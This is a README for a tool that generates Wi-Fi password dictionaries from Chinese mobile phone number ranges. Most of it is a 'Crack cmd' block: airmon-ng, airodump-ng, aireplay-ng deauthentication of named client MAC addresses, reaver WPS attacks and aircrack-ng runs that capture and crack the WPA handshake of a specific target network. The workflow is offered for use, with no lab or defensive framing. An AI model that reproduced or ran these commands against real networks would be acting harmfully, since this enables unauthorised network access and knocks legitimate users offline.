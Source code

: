 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

- `load_phone.py` loads phone numbers to sqlitedb
- `phone_dict_gen.py` will generate the phone dicts

## Crack cmd
```bash
# wlan interface
wlan_mon_if=wlan1mon
# Enable monitor mode
sudo airmon-ng start ${wlan_mon_if}

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa ${wlan_mon_if} -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap ${wlan_mon_if} -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}

###################################################################

sudo reaver -i ${wlan_mon_if} -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${caps}
```


## Phone data src
https://gitee.com/oss/phonedata/attach_files

## Use Hashcat to crack password
See [hashcat-guide.md](hashcat-guide.md)
